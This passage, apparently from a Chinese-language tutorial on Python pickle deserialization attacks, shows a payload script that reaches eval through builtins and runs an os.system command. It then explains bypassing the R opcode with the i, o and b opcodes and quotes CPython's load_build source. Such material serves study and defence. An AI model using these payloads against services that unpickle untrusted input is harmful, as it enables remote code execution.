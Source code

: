 
    利用工具的话

    ```python
    #payload.py
 
    #获取getattr函数
    getattr = GLOBAL('builtins', 'getattr')
    #获取字典的get方法
    get = getattr(GLOBAL('builtins', 'dict'), 'get')
    #获取globals方法
    golbals=GLOBAL('builtins', 'globals')
    #获取字典
    builtins_dict=golbals()
    #获取builtins模块
    __builtins__ = get(builtins_dict, '__builtins__')
    #获取eval函数
    eval=getattr(__builtins__,'eval')
    eval("__import__('os').system('whoami')")
    return
    ```

2. `pickle`了一个`pickle.loads()`,精彩

待续

#### 绕过R指令

使用R指令实例化对象的过程，实际上就是调用构造函数的过程，本质上也是函数执行，所以我们同样能够使用其他指令绕过。
就上文谈到的_i_,_o_,都可以

困了,先到这里

*b*指令

当PVM解析到`b`指令时执行`__setstate__`或者`__dict__.update()`

要存储对象的状态，就可以使用`__getstat__`和`__setstat__`方法。由于`pickle`同样可以存储对象属性的状态，所以这两个魔术方法主要是针对那些不可被序列化的状态，如一个被打开的文件句柄`open(file,'r')`

```python
    def load_build(self):
        stack = self.stack
        state = stack.pop()
        #首先获取栈上的字节码b前的一个元素，对于对象来说，该元素一般是存储有对象属性的dict
        inst = stack[-1]
        #获取该字典中键名为"__setstate__"的value
        setstate = getattr(inst, "__setstate__", None)
        #如果存在，则执行value(state)
        if setstate is not None:
            setstate(state)
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        #如果"__setstate__"为空，则state与对象默认的__dict__合并，这一步其实就是将序列化前保存的持久化属性和对象属性字典合并
        if state:
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        #如果__setstate__和__getstate__都没有设置，则加载默认__dict__
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
    dispatch[BUILD[0]] = load_build
```